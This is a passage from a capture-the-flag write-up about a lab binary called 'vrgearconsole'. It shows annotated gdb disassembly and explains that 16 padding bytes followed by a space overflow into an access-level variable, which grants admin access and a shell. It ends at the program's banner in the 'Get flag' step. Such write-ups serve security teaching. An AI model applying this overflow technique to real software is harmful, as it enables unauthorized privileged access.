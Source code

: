 ```gdb
   0x080486b0 <+124>:	jg     0x80486e4 <main+176>

print "Admin access granted" + spawn shell:
   0x080486b2 <+126>:	sub    esp,0xc
   0x080486b5 <+129>:	push   0x8048b39
   0x080486ba <+134>:	call   0x80483f0 <puts@plt>
   0x080486bf <+139>:	add    esp,0x10
   0x080486c2 <+142>:	sub    esp,0xc
   0x080486c5 <+145>:	push   0x8048b4f
   0x080486ca <+150>:	call   0x80483f0 <puts@plt>
   0x080486cf <+155>:	add    esp,0x10
   0x080486d2 <+158>:	sub    esp,0xc
   0x080486d5 <+161>:	push   0x8048b6a
   0x080486da <+166>:	call   0x8048400 <system@plt>
   0x080486df <+171>:	add    esp,0x10
   0x080486e2 <+174>:	jmp    0x804870e <main+218>

+176: "don't have permission" + exit
   0x080486e4 <+176>:	sub    esp,0xc
   0x080486e7 <+179>:	push   0x8048b72
   0x080486ec <+184>:	call   0x80483f0 <puts@plt>
   0x080486f1 <+189>:	add    esp,0x10
   0x080486f4 <+192>:	sub    esp,0xc
   0x080486f7 <+195>:	push   0x8048b84
   0x080486fc <+200>:	call   0x80483f0 <puts@plt>
   0x08048701 <+205>:	add    esp,0x10
   0x08048704 <+208>:	sub    esp,0xc
   0x08048707 <+211>:	push   0x1
   0x08048709 <+213>:	call   0x8048420 <exit@plt>

+218: function epilogue
   0x0804870e <+218>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048711 <+221>:	leave  
   0x08048712 <+222>:	lea    esp,[ecx-0x4]
   0x08048715 <+225>:	ret    
```
In order to hit the right part of the code, accessLevel should be between ```0x0``` and ```0x2f``` (bounds not included); the space character (```0x20```) falls in this range. If we use make the username just long enough to put a single space in the accessLevel memory location (16 garbage bytes followed by a single space), we should get Admin access.

# Step 3: Get flag
``` bash
de_lille_d@shell-web:/problems/51645e84d55d376442beaf264e0908b9$ ./vrgearconsole                   
+----------------------------------------+                                                         
|                                        |                                                         
|                                        |                                                         
|                                        |                                                         
|                                        |                                                         
|  Welcome to the VR gear admin console  |                                                         
|                                        |                                                         
|                                        |                                                         
|                                        |                                                         
|                                        |                                                         
+----------------------------------------+                                                         
|                                        |                                                         
|      Your account is not recognized    |                                                         
|                                        |                                                         
+----------------------------------------+                                                         
                                                                                                   
                                                                                                   
                                                                                                   
```